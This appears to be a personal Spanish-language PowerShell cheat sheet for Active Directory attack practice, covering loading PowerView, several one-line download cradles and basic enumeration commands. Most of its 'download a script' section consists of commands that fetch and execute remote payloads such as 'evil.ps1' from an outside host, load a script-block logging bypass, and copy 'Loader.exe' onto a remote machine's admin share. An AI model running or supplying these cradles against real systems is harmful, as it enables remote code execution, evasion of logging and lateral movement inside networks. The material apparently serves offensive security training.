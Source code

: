 # Powershell 

Tags: #Powershell #AD #Comandos 

## Cargar e importar un script 

```powershell 
❯ C:\AD\PowerView.ps1                   # Cargar un script 

❯ Import-Module C:\AD\PowerView.psd1    # Importar un modulo 

❯ Get-Command -Module <ModuleName>      # Listar modulos 
```

## Descargar un script 

* [Invoke-CradleCrafter](https://github.com/danielbohannon/Invoke-CradleCrafter)

```powershell 
❯ IEX (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')  # Descargar executable en memoria 

❯ IEX (iwr http://IP/sbloggingbypass.txt -UseBasicParsing) 
❯ iwr http://IP/Loader.exe -OutFile C:\Users\Public\Loader.exe 

❯ echo Y | xcopy C:\Users\Public\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe 

❯ $ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response

❯ PSv3 onwards - iex (iwr 'http://192.168.230.1/evil.ps1')

❯ $h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex ❯ $h.responseText

❯ $wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
❯ $r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```

## Comandos básicos 

```powershell 
❯ $env:username         # Mirar usuario del dominio 
❯ $env:computername     # Mirar el nombre del computador 

❯ ls env:               # Listar las variables de entorno 

❯ Enter-PSSession computername 
	❯ gpupdate /force 

❯ set username 
```